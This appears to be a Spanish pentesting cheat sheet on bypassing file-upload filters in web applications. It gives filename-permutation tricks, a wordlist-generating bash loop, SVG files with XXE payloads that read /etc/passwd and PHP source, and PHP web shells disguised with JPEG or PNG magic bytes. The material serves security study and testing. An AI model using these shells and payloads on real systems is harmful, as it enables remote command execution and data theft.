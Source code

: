 # Arbitrary File Upload

- Este tipo de ataque se basa en intentar subir archivos arbitrarios a una aplicación web.
- Generalmente se consiguen mediante features de una aplicación para subir imagenes o cualquier tipo de archivo.

## Bypassear filtros

### Whitelist filters bypass
- El servidor web solo permite solo ciertos tipos de archivos.

#### Double extensions
- Si el servidor web solo permite archivos con extensiones especificas, se puede intentar subir archivos con extensiones duplicadas.
- [wordlist de extensiones](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
- ejemplo: shell.jpg.php

#### Reverse double extensions
- Es lo mismo que extensiones dobles, pero en este caso se puede intentar subir archivos con extensiones inversas.
- ejemplo: php.jpg
- [wordlist de extensiones dobles php](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

### Character injection
- Se puede intentar subir archivos con caracteres especiales en su nombre.
- `%20`
- `%0a`
-`%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
    - ejemplo: shell.php%00.jpg

#### Código para generar permutaciones de caracteres en bash
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### MIME type filters bypass
- El servidor web solo permite ciertos tipos de archivos basados en su MIME type.
- [wordlist de content types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)
- ejemplo: shell.php con content type image/jpeg
- **GIF8 (GIF) o JFIF (JPEG)** al principio del archivo esto hace que el servidor lo interprete como una imagen.

### SVG + XXE file upload
- Se puede intentar subir un archivo SVG con un XXE payload.

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
- Podemos poner wrappers de p
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### Magic bytes attack
- Se puede intentar subir un archivo con magic bytes que hagan que el servidor lo interprete como un archivo diferente.
- [más info](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [más info x2](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)
- esto se basa en la firma de los archivos, por ejemplo, un archivo .jpg empieza con (en hexadecimal) `FF D8 FF E0 00 10 4A 46 49 46 00 01`
- podemos hacer lo siguiente:
```
AAAA
<?php echo system($_GET["cmd"]);?>
```
- Lo guardamos como shell.phar.jpeg
- Cambiamos el mymetype utilizando hexeditor, poniendo los numeros magicos reemplazando los valores AAAA: `FF D8 FF DB`
```
- También para PNG se puede hacer lo siguiente:
```bash
#!/bin/sh
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png
echo '<?php system($_REQUEST['cmd']); ?>' >> mime_shell.php.png
```
